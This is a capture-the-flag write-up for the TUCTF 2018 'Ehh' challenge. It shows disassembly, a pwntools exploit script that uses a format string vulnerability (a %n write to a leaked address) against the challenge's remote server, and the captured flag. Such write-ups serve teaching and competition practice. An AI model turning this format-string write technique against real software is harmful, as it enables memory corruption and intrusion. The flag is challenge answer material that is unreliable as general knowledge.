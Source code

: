 [](ctf=tu-ctf-2018)
[](type=pwn)
[](tags=stack-canary)
[](tools=radare2,gdb-peda,pwntools,python)

# Ehh

We are given a [binary](../ehh) which prints out the address of a variable and accepts user input.

```bash
vagrant@amy:~/share/ehh$ file ehh
ehh: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=d50965fb2cafc7eb26ecbce94385e870a05d02eb, not stripped
```

The binary has a format string vulnerability which can be leveraged to overwrite the variable such that the constaint is satisfied.

```assembly
...

│           0x000006f6      8b8328000000   mov eax, dword [ebx + 0x28] ; [0x28:4]=0x200034 ; '('
│           0x000006fc      83f818         cmp eax, 0x18
│       ┌─< 0x000006ff      7512           jne 0x713
│       │   0x00000701      83ec0c         sub esp, 0xc
│       │   0x00000704      8d83d2e7ffff   lea eax, [ebx - 0x182e]
│       │   0x0000070a      50             push eax                    ; const char *string
│       │   0x0000070b      e8b0fdffff     call sym.imp.system         ; int system(const char *string)
│       │   0x00000710      83c410         add esp, 0x10
│       └─> 0x00000713      b800000000     mov eax, 0

...
```

Exploit:

```python
from pwn import *

context(arch='i386', os='linux')
# p = process('./ehh')
p = remote('18.222.213.102', 12345)

p.recvuntil('here< ')
leak = p.recvuntil('\n').strip()
leak = int(leak, 16)

target_len = 0x18
target_fmt = '%6$n'
buf_fmt = '%{}x'
payload = ''
payload += p32(leak)
payload += buf_fmt.format(target_len - len(payload))
payload += target_fmt

p.sendline(payload)
p.recvuntil('TUCTF')
flag =  'TUCTF' + p.recvuntil('\n')
log.success(flag)
```

This gives us the flag
> TUCTF{pr1n7f_15_pr377y_c00l_huh}
